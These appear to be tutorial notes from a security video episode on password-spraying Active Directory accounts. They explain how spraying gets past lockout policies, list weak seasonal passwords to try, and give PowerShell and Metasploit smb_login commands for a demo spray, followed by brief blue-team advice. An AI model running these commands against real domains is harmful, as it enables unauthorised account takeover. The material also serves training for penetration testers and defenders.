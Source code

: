 Password Spraying Windows Active Directory Accounts – Tradecraft Security Weekly #5

https://github.com/dafthack/DomainPasswordSpray
https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login

# More Accounts = More Privs
- Having access to more AD account creds leads to more privileges on the network
- Allows for additional access to various network resources like shares, email, and other systems
- Using tools like BloodHound it can be very easy to determine escalation paths to DA

# Account Lockout Policies
- Most orgs typically set an account lockout policy to prevent brute force attacks
- Typical lockout policy might lockout accounts after 5 attempts in 30 mins
- Password spraying gets around this restriction by performing less authentication attempts than the lockout policy in the observation window

# Password Spraying
- Password spray all domain user accounts
- Try:
	- SeasonYear (Spring2017)
	- Password123
	- CompanyName123
	- etc...
- Some tools to password spray:
	- DomainPasswordSpray.ps1
	- SMB_login module from msf
# Demo
spray
```
C:\powershell.exe -exec bypass
PS> Import-Module .\DomainPasswordSpray.ps1 -Password Spring2017
```
get userlist
```
PS> Get-DomainUserList
```
MSF when not connected to domain and after enumerated a userlist.
```
msf> use auxiliary/scanner/smb/smb_login
msf> set RHOSTS targetip
msf> set SMBDomain corp.empire.com
msf> set SMBPass Spring2017
msf> set USER_FILE /root/Desktop/userlist.txt
```
# For the Blue Team
- Alert on password spraying attempts
- Perform internal password sprays to weed out poor passwords
- Increase password policies to prevent weak passwords


































